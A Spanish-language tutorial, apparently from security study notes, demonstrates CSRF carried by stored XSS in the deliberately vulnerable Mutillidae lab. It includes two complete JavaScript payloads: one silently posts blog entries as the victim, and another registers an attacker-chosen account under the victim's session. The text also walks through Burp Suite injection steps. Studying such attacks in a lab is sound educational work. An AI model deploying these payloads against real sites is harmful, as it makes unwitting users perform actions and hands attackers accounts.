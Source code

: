 # CSRF (Cross-site request forgery)

Con esto basicamente lo que hacemos es forzar a un usuario legitimo que esta logeado en una aplicacion web realice una accion que ni si quiera sabe que esta realizando.

Vamos a coger un script que ya nos proporciona la pagina `Mutillidae` que seria el siguiente:

```html
<script>
	var lXMLHTTP;
	try{
		var lBlogEntry = encodeURI("Entrada de blog anadida mediante CSRF");

		var lData = "csrf-token=&blog_entry="+lBlogEntry+"&add-to-your-blog-php-submit-button=Save+Blog+Entry";
		var lAction = "./index.php?page=add-to-your-blog.php";
		var lMethod = "POST";

		try {
			lXMLHTTP = new ActiveXObject("Msxml2.XMLHTTP");
		}catch(e){
			try {
				lXMLHTTP = new ActiveXObject("Microsoft.XMLHTTP");
			}catch(e){
				try{
					lXMLHTTP = new XMLHttpRequest();
				}catch(e){
					alert(e.message);
				}
			}
		}

		lXMLHTTP.onreadystatechange = function(){
			if(lXMLHTTP.readyState == 4){
				alert("CSRF Complete");
			}
		};

		lXMLHTTP.open(lMethod, lAction, true);
		lXMLHTTP.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
		lXMLHTTP.send(lData);
	}catch(e){
		alert(e.message);
	}
</script>
```

Lo que vamos hacer con esto es que cada vez que un usuario entre en esta entrada de blog, se va a ejecutar en segundo plano esta sentencia bajo su nombre sin que el se de cuenta.

Ponemos a `Burp Suite` a la escucha, para capturar una peticion que nosotros hagamos, una vez que hayamos capturado la peticion poniendo por ejemplo `canario`, nos vamos al `Decoder` y lo codificamos en `URL`, despues esta codificacion la pegamos sustituyendo la palabra `canario`, quedando algo asi:

<figure><img src="../../.gitbook/assets/image (98) (1).png" alt=""><figcaption></figcaption></figure>

Le daremos a `Forward` y veremos esto:

<figure><img src="../../.gitbook/assets/image (99) (1).png" alt=""><figcaption></figcaption></figure>

Por lo que vemos que ha funcionado, claramente este popup en una explotacion real, no habria que ponerlo.

Y vemos que algo se ha injectado en el blog:

<figure><img src="../../.gitbook/assets/image (100) (1).png" alt=""><figcaption></figcaption></figure>

Por lo que cada vez que un usuario acceda a esta pagina se va a estar ejecutando este scrip:

<figure><img src="../../.gitbook/assets/image (101) (1).png" alt=""><figcaption></figcaption></figure>

Y se va a estar añadiendo una entrada en el blog como el usuario que entre.

Si por ejemplo nosotros nos logeamos con otro usuario, como si fuera otro el usuario que entre y nos dirijimos a ver las entradas de blog en el siguiente apartado:

`OWASP 2017` -> `Cross-Site-Scripting (XSS)` -> `Persistent (Second Order)` -> `View Someone's Blog`.

Seleccionamos el ver todas las entradas `Show all` y le damos a `View Blog Entries`, veremos esto:

<figure><img src="../../.gitbook/assets/image (102) (1).png" alt=""><figcaption></figcaption></figure>

Veremos que se nos ha ejecutado por detras el script, como este usuario, por lo que si nosotros ahora nos dirigimos a escribir una entrada en el blog:

<figure><img src="../../.gitbook/assets/image (103) (1).png" alt=""><figcaption></figcaption></figure>

Veremos que ya hay una entrada con este usuario logeado, por lo que ha funcionado correctamente.

Y lo que estamos haciendo con esto es que el usuario realice algunas tareas en nuestro beneficio.

Por ejemplo otro `payload` mas potente es hacer al usuario de que registre otra cuenta:

```html
<script>
	var lXMLHTTP;
	try{
		var lUsername = "csrf_test";
		var lPassword = "csrf_password";
		var lSignature = "Cuenta creada mediante una vulnerabilidad CSRF";
		var lData = "username="+lUsername+"&password="+lPassword+"&confirm_password="+lPassword+"&my_signature="+lSignature+"&register-php-submit-button=Create+Account";
		var lAction = "./index.php?page=register.php";
		var lMethod = "POST";

		try {
			lXMLHTTP = new ActiveXObject("Msxml2.XMLHTTP");
		}catch(e){
			try {
				lXMLHTTP = new ActiveXObject("Microsoft.XMLHTTP");
			}catch(e){
				try{
					lXMLHTTP = new XMLHttpRequest();
				}catch(e){
					alert(e.message);
				}
			}
		}

		lXMLHTTP.onreadystatechange = function(){
			if(lXMLHTTP.readyState == 4){
				alert("CSRF Complete");
			}
		};

		lXMLHTTP.open(lMethod, lAction, true);
		lXMLHTTP.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
		lXMLHTTP.send(lData);
	}catch(e){
		alert(e.message);
	}
</script>
```

Lo que hace esto al usuario es forzar mediante una peticion `AJAX` a crear una nueva cuenta con los parametros que nosotros le indiquemos.

Lo bueno de esto es que si nosotros no podemos crearnos una cuenta ya sea por que es una aplicacion de empresa o solo se puede por invitacion, otro usuario que si tenga acceso a ello podra crearla por nosotros y nosotros podernos logear con dicha cuenta.

Por lo que abriremos `Burp Suite` capturaremos la peticion de `canario` y codificaremos el anterior script en `URL` y lo reemplazaremos por la palabra `canario` quedando algo asi:

<figure><img src="../../.gitbook/assets/image (104) (1).png" alt=""><figcaption></figcaption></figure>

Le daremos a `Forward` y nos saldra esto:

<figure><img src="../../.gitbook/assets/image (105) (1).png" alt=""><figcaption></figcaption></figure>

Ahora nos loguearemos con otra cuenta para hacerlo desde un usuario externo.

Nos iremos a `OWASP 2017` -> `Cross-Site-Scripting (XSS)` -> `Persistent (Second Order)` -> `View Someone's Blog`.

Seleccionamos el ver todas las entradas `Show all` y le damos a `View Blog Entries`, veremos esto:

<figure><img src="../../.gitbook/assets/image (106) (1).png" alt=""><figcaption></figcaption></figure>

Por lo que el usuario con los parametros que especificamos ya se habria creado correctamente bajo este usuario, solo tendremos que probar a introducir las credenciales y veremos lo siguiente:

```
User: csrf_test
Pass: csrf_password
```

<figure><img src="../../.gitbook/assets/image (107) (1).png" alt=""><figcaption></figcaption></figure>
